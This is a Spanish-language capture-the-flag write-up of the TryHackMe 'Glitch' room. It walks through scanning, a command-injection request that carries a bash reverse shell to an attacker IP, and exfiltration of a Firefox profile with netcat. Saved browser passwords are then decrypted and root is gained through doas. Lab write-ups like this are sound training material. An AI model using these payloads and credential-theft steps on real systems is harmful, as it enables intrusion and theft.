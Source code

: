 ```yaml
---
layout: single
title: Glitch final
excerpt: "Challenge showcasing a web app and simple privilege escalation. Can you find the glitch?"
date: 2022-05-06
classes: wide
header:
  teaser: /assets/images/thm-writeup-glitch/glitch_logo.png
  teaser_home_page: true
  icon: /assets/images/thm_ico.png
categories:
  - TryHackMe
  - infosec
tags:
  - Security
  - Linux
  - Web
  - Javascript
  - Privilege escalation
---
```


![logo](/assets/images/thm-writeup-glitch/glitch_logo.png)

[Link](https://tryhackme.com/room/glitch "Glitch")

This is a simple challenge in which you need to exploit a vulnerable web application and root the machine. It is beginner oriented, some basic JavaScript knowledge would be helpful, but not mandatory. Feedback is always appreciated.

---

## 1. Fase de reconocimiento

- Para conocer a que nos estamos enfrentando lanzamos el siguiente comando:

```css
ping -c 1 {ip}
```

![logo](/assets/images/thm-writeup-glitch/glitch_ping.png)

- De acuerdo con el ttl=63 sabemos que nos estamos enfrentando a una máquina con sistema operativo Linux.

---

## 2. Enumeración / Escaneo

- Escaneo de la totalidad de los **_65535_** puertos de red el cual guardamos en un archivo en formato **_nmap_** con el siguiente comando:

```css
└─# nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn {ip} -oN allports
```

![nmap_allports](/assets/images/thm-writeup-glitch/glitch_nmap_allports.png)

---

- De acuerdo con el escaneo anterior, se encuentran el siguiente puerto abierto; 80 (htp)

- Escaeno de vulnerabilidades sobre los puerto 80:

```css
nmap -v -A -sC -sV -Pn {ip} -p22,80 --script vuln
```

![nmap_allports](/assets/images/thm-writeup-glitch/glitch_nmap_vuln.png)

---

- Whatweb nos da la siguiente información:

```css
whatweb {ip}
```

![what_web] (/assets/images/thm-writeup-glitch/glitch_whatweb.png)

---

- Revisión de la URL **_<http://10.10.24.23>_**:

![URL] (/assets/images/thm-writeup-glitch/glitch_web.png)


- Buscando el la ruta **_robots.txt_**, nos muestra lo siguiente:

![URL](/assets/images/thm-writeup-glitch/glitch_robots.png)

---

## 3. WFUZ

- Escaeno de subdominios con wfuzz:

```css
 wfuzz --hc=404,273 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://10.10.24.13/FUZZ/

```

![wfuzz](/assets/images/thm-writeup-glitch/glitch_wfuzz.png)

- Con el anterior escaner encotramos las páginas  **secret - img - js**

---

## Gobuster

- Escaeno de subdominios con gobuster

```css
gobuster -w /usr/share/dirb/wordlists/common.txt dir -u http://10.10.24.13 -x html,php,txt -k   
```

- Con el anterior escaner encotramos las páginas  **secret - img - js**

## 5 Burpsuite

- Realizamos la captura mediante burpsuite y nos encotramos con lo siguiente

![Burp](/assets/images/thm-writeup-glitch/glitch_burp_home.png)




```css
POST /api/items?cmd=require("child_process").exec('bash+-c+"bash+-i+>%26+/dev/tcp/10.9.0.68/4444+0>%261"') HTTP/1.1
Host: 10.10.27.123
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: token=value
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```


### TAR Comprimir

```css
user@ubuntu:~$ tar -czvf .firefox
user@ubuntu:~$ ls
firefox.tar.gz  user.txt

```

### Compartir archivo con nc

```css
[Terminal atacante]
─# nc -nlvp 3333 > firefox.tar.gz
listening on [any] 3333 ...
connect to [10.9.0.68] from (UNKNOWN) [10.10.24.13] 60530
─# ls
exp.py  firefox.tar.gz

[Terminal target]
user@ubuntu:~$ nc -nv 10.9.0.68 3333 < firefox.tar.gz
Connection to 10.9.0.68 3333 port [tcp/*] succeeded!
```

### TAR descomprimir

```css
└─# tar xvzf firefox.tar.gz 
.firefox/
.firefox/profiles.ini
.firefox/Crash Reports/
.firefox/Crash Reports/events/
.firefox/Crash Reports/InstallTime20200720193547
.firefox/b5w4643p.default-release/
.firefox/b5w4643p.default-release/key4.db
.firefox/b5w4643p.default-release/cookies.sqlite
.firefox/b5w4643p.default-release/prefs.js
...
```

### Exploit

- Descargamos el exploit desde la siguiente página <https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py> lo guardamos con el nombre **exp.py** 

- Lo ejecutamos con el siguiente comando y marcamos la opción **2** y de está manera obtenemos un usuario y contraseña:

```css
─# python3 exp.py .firefox 
Select the Mozilla profile you wish to decrypt
1 -> hknqkrn7.default
2 -> b5w4643p.default-release
2

Website:   https://glitch.thm
Username: 'v??????'
Password: 'l??????'

```
- Ingresamos con este usuario:

```css
user@ubuntu:~$ su v0id
su v0id
Password: l??????
v0id@ubuntu:/home/user$ 

```

### Root

```css
root@ubuntu:~# find / -type f -user root -perm -u=s 2>/dev/null
find / -type f -user root -perm -u=s 2>/dev/null
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/doas
root@ubuntu:~# 

```

```css
v0id@ubuntu:/home/user$  doas -u root /bin/bash
 doas -u root /bin/bash
Password: l???????

root@ubuntu:/home/user# cd /root
cd /root
root@ubuntu:~# cat root.txt
cat root.txt
THM{d????????}

```

### Fuentes

Writeup:

<https://www.aldeid.com/wiki/TryHackMe-GLITCH>
